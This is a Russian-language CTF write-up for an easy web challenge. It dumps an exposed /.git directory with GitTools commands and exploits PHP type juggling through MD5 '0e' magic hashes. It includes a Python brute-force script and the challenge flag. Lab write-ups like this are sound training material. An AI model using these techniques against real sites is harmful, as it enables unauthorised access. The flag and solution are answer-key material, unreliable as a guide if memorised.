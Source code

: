 # Начинающий жонглер | easy | web

## Информация
> Вам необходимо научиться самому важному трюку жонглера. Попадите на его представление и узнайте все секреты

## Выдать участинкам
Ссылка [link](http://tasks.polyctf.ru:30000/)

## Описание
В данном задании необходимо восстановить коммит из открытой директории /.git и воспользоваться уязвимостью php type juggling

## Решение
Для решения этого задания можно воспользоваться утилитой dirsearch, для того чтобы увидеть доступность директории /.git:

![dirsearch.png](solve/dirsearch.png)

Далее неободимо выгрузить и восстановить содержимое из папки /.git. Для этого можно использовать утилиту [GitTools](https://github.com/internetwache/GitTools/tree/master)

Для начала выгрузим содержимое с помощью скрипта gitdumper.sh:

`./gitdumper.sh http://tasks.polyctf.ru:30000/.git/ ./project`

![dumper.png](solve/dumper.png)

Далее восстановить коммиты через утилиту extractor.sh:

`./extractor.sh ./project ./final`

![extractor.png](solve/extractor.png)

После этой операци был получен исходный коммит. Нужно проанализировать его работу и понять как обрабатывается форма для получения бесплатного билета

![index.png](solve/index.png)

В данном коде можно увидеть типовую уязвимость – php type juggling, завязанную на коллизии в md5. Необходимо написать небольшой код для подбора такого ключа, хеш которого, начинается на 0e и состоит только из цифр. Однако, необходимый ключ можно найти [тут](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)

Пример кода для подбора ключа:
```
import hashlib

def find_md5_collision(prefix):
    i = 0
    while True:
        candidate = f"{i}"
        hashed = hashlib.md5(candidate.encode()).hexdigest()
        
        if hashed.startswith(prefix) and hashed[2:].isdigit():
            return candidate, hashed
        
        i += 1

if __name__ == "__main__":
    prefix = "0e"
    result = find_md5_collision(prefix)
    print(f"Найдено строка: {result[0]}, Хеш: {result[1]}")
```

## Флаг
`PolyCTF{MD5_AnD_tyPE_jUG9L!n6_IN_PHP_@R3_7r!Cky}`
